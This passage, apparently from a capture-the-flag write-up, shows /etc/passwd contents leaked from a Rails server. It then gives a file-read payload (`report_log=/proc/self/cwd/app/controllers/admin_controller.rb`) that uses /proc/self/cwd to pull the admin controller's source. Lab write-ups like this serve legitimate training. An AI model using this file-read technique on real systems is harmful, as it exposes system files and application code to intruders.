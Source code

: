     gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:110::/nonexistent:/usr/sbin/nologin
    postfix:x:104:111::/var/spool/postfix:/usr/sbin/nologin
    _chrony:x:105:114:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
    _rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
    proftpd:x:107:65534::/run/proftpd:/usr/sbin/nologin
    ftp:x:108:65534::/srv/ftp:/usr/sbin/nologin
    sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
    statd:x:110:65534::/var/lib/nfs:/usr/sbin/nologin
    avahi:x:111:115:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
    admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
    openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
    systemd-timesync:x:994:994:systemd Time Synchronization:/:/usr/sbin/nologin
    systemd-coredump:x:993:993:systemd Core Dumper:/:/usr/sbin/nologin
    rails:x:1000:100::/home/rails:/bin/bash
    _laurel:x:996:992::/var/log/laurel:/bin/false
    marcus:x:1001:1002:,,,:/home/marcus:/bin/bash


#### Application Source

From the `/rails/info/routes` path, I have a list of the controllers and
the function in them assigned to each path on the server. (Without this
file I could retrieve this information from `config/routes.rb` in the
application directory.)

There's a [standard naming
scheme](https://gist.github.com/iangreenleaf/b206d09c587e8fc6399e#controllers)
for Rails application controllers:

> Controller *class names* use `CamelCase` and have `Controller` as a
> suffix. The `Controller` suffix is always singular. The name of the
> resource is usually **plural**.
>
> Controller *actions* use `snake_case` and usually match the standard
> route names Rails defines (`index`, `show`, `new`, `create`, `edit`,
> `update`, `delete`).
>
> Controller files go in
> `app/controllers/#{resource_name}_controller.rb`.

I expect to find the admin controller in
`app/controllers/admin_controller.rb`. I don't know the absolute path to
the application, but I can use `/proc/self/cwd` to get there. I'll
update the POST body to
`report_log=/proc/self/cwd/app/controllers/admin_controller.rb`. The
source comes back:

